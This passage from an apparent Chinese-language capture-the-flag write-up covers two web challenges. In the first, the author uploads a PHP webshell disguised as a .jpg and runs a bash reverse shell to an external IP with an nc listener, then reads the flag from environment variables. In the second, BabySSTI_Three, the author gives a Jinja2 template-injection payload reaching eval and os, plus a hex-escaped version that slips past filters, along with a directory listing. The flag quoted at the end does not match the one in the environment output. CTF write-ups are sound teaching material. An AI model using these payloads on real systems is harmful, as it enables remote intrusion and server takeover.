 ```bash
bash -i &> /dev/tcp/47.97.152.130/54188 0>&1
```

然后在主控机上监听端口 `nc -lvp 54188`，在 WebShell 执行该文件拿到 shell.

再访问 `/upload/webshell.jpg`, 发现已经显示为 php.

![give_me_your_photo_4](image/week5/web/give_me_your_photo_4.png)

主控机上已拿到 shell，但根目录下未发现 flag，于是执行：

```shell
www-data@out:/$ export -p
```

得到其中一条为：

```shell
declare -x FLAG="flag{157d77e1-0d53-42db-a9d6-2b98e4cacec0}"
```

获得 flag.

```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### BabySSTI_Three

使用 pyload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('__import__('os').listdir('/')')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x27\x2f\x27\x29')}}
```

网页端得到：

```python
['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', 'flag_in_h3r3_52daad', '.dockerenv', 'app', 'start.sh']
```
